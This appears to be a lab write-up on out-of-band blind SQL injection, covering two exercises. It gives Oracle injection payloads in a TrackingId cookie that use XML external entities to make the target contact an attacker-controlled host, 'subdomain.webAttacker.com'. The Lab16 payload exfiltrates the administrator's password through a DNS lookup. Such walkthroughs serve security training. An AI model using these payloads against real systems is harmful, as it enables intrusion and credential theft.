 # OUT-of-Band (OAST) Techniques

### Lab15: Blind SQL injection with out-of-band interaction
- An Out-Of-Band attack is classified by having two different communication channels, one to launch the attack and the other to gather the results.
- In this technique, we will try to make the target server interact with any server we can control and monitor our server to make sure that the target server has sent the request to our server and executed the injected query which we passed into the web application.
- We can use the DNS protocol to perform `DNS lookup` for the domain to resolve it to the IP address.
- Then we will monitor whether the requests succeeded or not.
- Here we will perform a DNS lookup for the domain for any server you control.

```
TrackingId=xyz'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://subdomain.webAttacker.com"> %remote;]>'),'/l') FROM dual)--
```
- If you received responses in your external server since your attack has succeeded. 
- You can read more about [Out-of-band application security testing (OAST)](https://portswigger.net/burp/application-security-testing/oast)
#### `Note:` 
- In `lab15 & lab16`, you will use the `Burp Collaborator client`, but you must have the `Burp Suite professional`.
- But in the real-world scenario, you can use any server you can control.
----------------------------

### Lab16: Blind SQL injection with out-of-band data exfiltration
- We can use the out-of-band channel to exfiltrate data.

```
TrackingId=xyz'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.subdomain.webAttacker.com"> %remote;]>'),'/l') FROM dual)--
```
- The results which our server will receive will be like that: `password`.subdomain.webAttacker.com
